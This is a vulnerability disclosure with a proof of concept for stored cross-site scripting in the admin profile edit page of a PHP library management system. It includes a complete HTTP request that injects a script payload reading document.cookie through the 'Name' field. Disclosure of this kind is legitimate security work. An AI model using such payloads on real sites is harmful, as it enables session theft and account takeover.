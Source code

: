 #### Title: Library Management System with QR code Attendance 1.0 Stored Cross-Site Scripting
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 27.06.2022
#### Vendor: https://www.sourcecodester.com/users/kingbhob02
#### Software: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html
#### Version: 1.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/Cross%20Site%20Scripting(Stored)/POC.md

#### Description：
#### Library Management System with QR code Attendance is vulnerable to Stored cross-site scripting on the profile edit page. The "Name" parameter in 'http://localhost/LMS/admin/edit_admin_details.php' is vulnerable.

#### Impact:
 An attacker could steal cookies with a crafted URL sent to the victims.

### POC

```
POST /LMS/admin/edit_admin_details.php?id=admin HTTP/1.1
Host: localhost
Content-Length: 115
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/LMS/admin/edit_admin_details.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=0r78mi76ub6k55p8mkce7f4pco
Connection: close

Name=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&EmailId=admin%40gmail.com&MobNo=0&Password=admin&submit=
```

![image](https://github.com/CyberThoth/CVE/blob/37f3162287d4da5362ea0a408bd0e1c970b39c3e/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/Cross%20Site%20Scripting(Stored)/1.png)

![image](https://github.com/CyberThoth/CVE/blob/37f3162287d4da5362ea0a408bd0e1c970b39c3e/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/Cross%20Site%20Scripting(Stored)/2.png)

![image](https://github.com/CyberThoth/CVE/blob/37f3162287d4da5362ea0a408bd0e1c970b39c3e/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/Cross%20Site%20Scripting(Stored)/3.png)
